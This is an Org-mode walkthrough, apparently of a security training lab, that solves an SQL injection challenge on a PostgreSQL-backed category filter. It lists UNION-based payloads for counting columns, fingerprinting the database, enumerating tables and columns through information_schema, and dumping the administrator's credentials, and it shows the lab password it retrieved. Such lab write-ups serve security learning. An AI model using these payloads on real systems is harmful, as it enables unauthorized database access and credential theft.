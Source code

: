 #+title: SQL injection attack, listing the database contents on non-Oracle databases

* About
Vulnerability on ~category~ filter

** Have
+ Login system
+ Table that holds username and password

** End Goal
+ Determine the table name
+ Get credential for ~administrator~ and login

* Steps
** Step 1
Determine the number of columns
#+begin_src sql
'ORDER BY 1 --
#+end_src

#+begin_quote
Number of columns will be 2
#+end_quote

** Step 2
Determine the data type those columns are using
#+begin_src sql
'UNION SELECT 'ab', 'cd' --
#+end_src
#+begin_quote
Both columns use string data type
#+end_quote

** Step 3
Determine which type of database system this lab is using
#+begin_src sql
'UNION SELECT @@version, NULL --
#+end_src
#+begin_quote
Error !! So this is not mysql or microsoft database system
#+end_quote

#+begin_src sql
'UNION SELECT version(), NULL --
#+end_src
#+begin_quote
Success!! So this is ~PostgreSQL~ database
#+end_quote

** Step 4
Find out all tables in the PostgreSQL

#+begin_src sql
SELECT * FROM information_schema.tables
#+end_src

We just want to get table names. So our query will be
#+begin_src sql
'UNION SELECT table_name, NULL FROM information_schema.tables --
#+end_src

*** Retrieve Data
~users_rddprx~

Now get the column names from ~users_rddprx~ table

#+begin_src sql
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_rddprx' --
#+end_src

*** Retrieve Data
+ username_vgfsuf
+ password_chmcao

** Step 5
Now finally get the all the information from the table
#+begin_src sql
'UNION SELECT username_vgfsuf, password_chmcao FROM users_rddprx --
#+end_src

*** Retrieve Data
+ administrator
+ 420qf8r7ca1jxx8hevxn
